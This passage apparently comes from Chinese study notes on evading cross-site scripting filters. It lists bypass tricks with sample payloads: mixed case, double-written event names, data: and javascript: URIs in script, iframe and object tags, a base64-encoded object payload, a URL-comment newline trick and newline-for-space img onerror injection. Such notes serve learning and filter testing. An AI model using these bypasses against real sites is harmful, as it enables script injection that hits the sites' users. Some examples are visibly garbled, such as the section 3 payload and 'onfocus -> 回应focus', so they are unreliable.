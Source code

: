 ### 3、HTML大小写不敏感绕过黑名单

```
<不敏感 不敏感="协议不敏感:敏感()"></不敏感>
```

但是一般都不奏效：后端只需要采用个:

```
$str = strtolower($_GET["keyword"]); // 将输入转换为小写
```

### 4、双写绕过

例如：

onfocus -> 回应focus

尝试:

oonnfocus -> onfocus

### 5、伪协议执行JS

1. 在script的标签中的src可以使用data（但是必须指定text/javascript，不能编码） / http+远程js文件，但是不能使用js

   ```
   <script src="data:text/javascript,print()"></script>
   ```

2. 在iframe的src中可以使用js，不能使用data

3. img的src两个都不可以，必须借用js事件处理器

4. 在任何标签的**herf中可以使用js**，不能使用data

5. object标签的data可以使用data，但是必须指定text/html，可以编码

   ```
   <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4="></object>
   ```

6. 伪协议+//+%0a可绕过url检测

   ```
   javascript://comment%0aalert(1)
   ```

   绕过：

   ![image-20250626152810193](C:\Users\33940\AppData\Roaming\Typora\typora-user-images\image-20250626152810193.png)

### 6、标签内空格过滤绕过

1. 换行符绕过：**前提是的是注入点是支持/会自动url编码的地方**

```
<img%0asrc=1%0aonerror=alert()> //在%0a是换行的url编码、%0d%0a = \r\n
```

2. / 符号绕过
